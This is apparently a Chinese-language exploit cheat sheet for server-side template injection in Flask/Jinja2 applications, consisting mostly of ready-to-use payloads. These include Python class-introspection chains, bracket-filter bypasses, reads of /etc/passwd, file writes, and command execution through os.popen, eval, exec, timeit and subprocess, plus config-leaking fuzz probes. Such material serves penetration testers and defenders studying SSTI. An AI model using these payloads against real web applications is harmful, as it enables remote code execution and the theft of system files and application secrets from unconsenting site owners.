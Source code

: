 # EXP手册-服务端模板注入（SSTI） 
## 基础知识
[flask之ssti模版注入从零到入门](https://xz.aliyun.com/t/3679)
## EXP
### 0x01获取基本类    
```   
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[8]
```
可以借助__getitem__绕过中括号限制：
```
''.__class__.__mro__.__getitem__(2)
{}.__class__.__bases__.__getitem__(0)
().__class__.__bases__.__getitem__(0)
request.__class__.__mro__.__getitem__(8)
```
注释：
```
__class__:获得当前对象的类
__bases__:列出其基类
__mro__ :列出解析方法的调用顺序，类似于bases
__subclasses__()：返回子类列表
__dict__ ： 列出当前属性/函数的字典
func_globals:返回一个包含函数全局变量的字典引用
```
### 0x02文件操作
>不同Python的版本，类方法中的子类列表是不同，下面主要是以python2为例子   

>```object.__subclasses__()[40]```为file类，所以可以对文件进行操作
>读文件：
```
object.__subclasses__()[40]('/etc/passwd').read()
```
>写文件：
```
object.__subclasses__()[40]('/tmp').write('test')
```
### 0x03执行命令


>```object.__subclasses__()[59].__init__.func_globals.linecache```下直接有os类，可以直接执行命令：
```
object.__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read()
```
>```object.__subclasses__()[59].__init__.__globals__.__builtins__```下有```eval，__import__```等的全局函数，可以利用此来执行命令：
```
object.__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
object.__subclasses__()[59].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
object.__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
object.__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()
```

### 0x04任意代码执行以及文件读取的函数

>os 执行系统命令
```
import os
os.system('ipconfig')
```
>exec 任意代码执行
```
exec('__import__("os").system("ipconfig")')
```
>eval 任意代码执行
```
eval('__import__("os").system("ipconfig")')
```
>timeit 本是检测性能的，也可以任意代码执行
```
import timeit
timeit.timeit("__import__('os').system('ipconfig')",number=1)
```
>platform
```
import platform
platform.popen('ipconfig').read()
```
>subprocess
```
import subprocess
subprocess.Popen('ipconfig', shell=True, stdout=subprocess.PIPE,stderr=subprocess.STDOUT).stdout.read()
```
>file
```
file('/etc/passwd').read()
```
>open
```
open('/etc/passwd').read()
```
>codecs
```
import codecs
codecs.open('/etc/passwd').read()
```
### 0x05Fuzz
```
{{config}}
{{handler.settings}}
{{app.__init__.__globals__.sys.modules.app.app.__dict__}}
```
### 0x06Bypass
- [Jinja2 template injection filter bypasses](https://0day.work/jinja2-template-injection-filter-bypasses/)
- [SSTI Bypass 分析](https://www.secpulse.com/archives/115367.html)   

请求参数获取   
- GET: request.args
- Cookies: request.cookies
- Headers: request.headers
- Environment: request.environ
- Values: request.values

### Reference：
- [Flask/Jinja2 SSTI && python 沙箱逃逸](https://www.kingkk.com/2018/06/Flask-Jinja2-SSTI-python-%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8/)
- [Flask/Jinja2模板注入中的一些绕过姿势](https://p0sec.net/index.php/archives/120/)

